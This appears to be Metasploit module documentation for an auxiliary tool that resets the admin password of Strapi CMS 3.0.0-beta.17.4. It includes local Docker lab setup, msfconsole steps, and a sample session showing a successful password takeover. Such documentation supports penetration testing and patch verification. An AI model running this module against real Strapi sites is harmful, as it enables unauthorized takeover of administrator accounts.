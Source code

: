 ## Vulnerable Application

This module abuses the mishandling of a password reset request for 
Strapi CMS version 3.0.0-beta.17.4 to change the password of the admin user.

Successfully tested against Strapi CMS version 3.0.0-beta.17.4.

### Install


```
docker run -it -p 1337:1337 --rm node:16 /bin/bash
export CXXFLAGS="-std=c++17"
# Complete the quickstart
npm install -g create-strapi-app@3.0.0-beta.17.4 && create-strapi-app yourProjectName
```

Navigate to http://localhost:1337/ to verify the application is running. Now create the first admin account at http://localhost:1337/admin

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/strapi_3_password_reset`
1. Do: `set new_password testtesttest`
1. Do: `set rport 1337`
1. Do: `set rhosts 127.0.0.1`
1. Do: `run`
1. You should be able to reset the admin users password

## Options

### NEW_PASSWORD

New Admin password. No default.

## Scenarios

### npx install of strapi 3.0.0-beta.17.4

```
msf > use auxiliary/scanner/http/strapi_3_password_reset
msf auxiliary(scanner/http/strapi_3_password_reset) > set new_password testtesttest
new_password => testtesttest
msf auxiliary(scanner/http/strapi_3_password_reset) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/http/strapi_3_password_reset) > set rport 1337
rport => 1337
msf auxiliary(scanner/http/strapi_3_password_reset) > check
[-] This module does not support check.
msf auxiliary(scanner/http/strapi_3_password_reset) > run

[*] Resetting admin password...
[+] Password changed successfully!
[+] User: superadminuser
[+] Email: none@none.com
[+] PASSWORD: testtesttest
[*] Auxiliary module execution completed
```
